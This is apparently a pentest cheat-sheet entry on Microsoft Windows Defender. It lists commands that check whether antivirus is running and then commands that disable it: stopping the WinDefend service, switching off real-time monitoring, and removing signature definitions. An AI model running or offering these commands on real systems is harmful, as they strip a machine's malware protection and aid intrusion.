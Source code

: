 # Microsoft Windows Defender

Check if AV running:

```bash
WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List | more
Get-MpComputerStatus 
```

Disable Defender

```text
sc config WinDefend start= disabled
sc stop WinDefend
# Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
# Remove definitions
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

